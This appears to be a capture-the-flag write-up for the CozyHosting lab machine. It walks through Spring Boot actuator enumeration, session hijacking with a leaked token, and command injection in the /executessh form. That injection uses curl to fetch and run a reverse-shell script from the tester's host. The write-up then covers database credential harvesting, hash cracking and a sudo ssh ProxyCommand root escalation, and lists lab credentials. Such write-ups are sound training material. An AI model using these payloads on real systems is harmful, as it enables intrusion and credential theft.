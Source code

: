 # IP

10.10.11.230

# Steps

## Enumeration

Rustscan

```bash
rustscan -a 10.10.11.230

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```

Nmap

```bash
nmap -sCV -p10.10.11.230 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap.out

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Open SSH, and HTTP ports. Since we don't have any creds, we can look at the web app on HTTP.

There's nothing on the actual site, and forced browsing for files and directories doesn't give us anything either. 

Moving on to scanning any default endpoints, we get an `/error` page that gives us a 500 server error.

Googling this error page shows us that its a spring boot error page. Seclists has a wordlist for this, so we can try to directory bust it to find any spring boot links.

![](Assets/Pasted%20image%2020250915153201.png)

There are links that have `actuator/` in them. This is something worth checking out. 

Going to `/actuator/mappings` gives us all the links and what they do in the context of this spring boot application.

There's a link called `actuator/sessions/` that gives us the currently logged in sessions. There's a user called `kanderson` logged in, there's also a session token there.

## Exploit

We can try to do some session hijacking with this.

![](Assets/Pasted%20image%2020250915151954.png)

We can paste the session token from the `sessions/` url, into the session cookie area on our browser, and try to hit the `/admin/` endpoint with it.

![](Assets/Pasted%20image%2020250915153550.png)

We're now in the user `K Anderson`'s admin panel

![](Assets/Pasted%20image%2020250915153910.png)

There's a part of this site that is a form, allowing the inclusion of hosts for automatic patching.

### Command Injection

### Exploit

Bash shell

Fetched it from my python server using curl

```bash
POST /executessh HTTP/1.1
Host: cozyhosting.htb
Content-Length: 108
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://cozyhosting.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://cozyhosting.htb/admin
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=ED8D51C8FC80CCF6AB95DA14C574DC0E
Connection: keep-alive

host=localhost&username=2>/dev/null%0a$(curl${IFS}http://10.10.14.14:8000/rev.sh${IFS}-o${IFS}/tmp/rev.sh);#
```

![](Assets/Pasted%20image%2020250915225042.png)

![](Assets/Pasted%20image%2020250915225022.png)

Next we execute it using the following injection

```bash
host=localhost&username=2>/dev/null%0a$(bash${IFS}/tmp/rev.sh);#
```

Here, the request on Burp hangs, but my penelope has caught a reverse shell

![](Assets/Pasted%20image%2020250915225354.png)

There's only one file here

![](Assets/Pasted%20image%2020250915225513.png)

## PrivEsc

### John

Doing internal enumeration on the shell we got isn't going anywhere because its too low level. There's a user called `john` but we can't access his account. However, there's an interesting file left behind in the `/app` directory called `cloudhosting-0.0.1.jar`

We grab this jar file, and use an online viewer to take a look at what's inside (https://jar.tools/jar-viewer)

We got the manifest, so we can get version info about the build and backend of this webapp

![](Assets/Pasted%20image%2020250916000029.png)

We end up finding some database creds here

![](Assets/Pasted%20image%2020250916000425.png)

Its safe to assume there's a postgres instance running on the server, but to be sure we can run `netstat -autnp` to check what's using the port `5432`.

We can then connect to the postgres instance on the machine using the creds we harvested earlier.

![](Assets/Pasted%20image%2020250916001206.png)

![](Assets/Pasted%20image%2020250916001446.png)

![](Assets/Pasted%20image%2020250916001457.png)

![](Assets/Pasted%20image%2020250916001836.png)

I can try to crack these hashes to see what's in them using Hashcat.

There's only one account on the shell other than `app`. Its `josh`. I can try to login over ssh as josh.

![](Assets/Pasted%20image%2020250916215409.png)

### Local Enumeration

I start with running `sudo -l` to see what the user john can run as sudo. Turns out he can run ssh as sudo.

![](Assets/Pasted%20image%2020250916215351.png)

The first thing to do is check GTFO Bins for a privesc.

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](Assets/Pasted%20image%2020250916220623.png)

# Findings

# Creds

```plaintext
# web admin account
kanderson

# postgres login
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR

# creds from users table
kanderson : $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin : $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm : manchesterunited
```

# Proof

# References

https://0xdf.gitlab.io/cheatsheets/404#spring-boot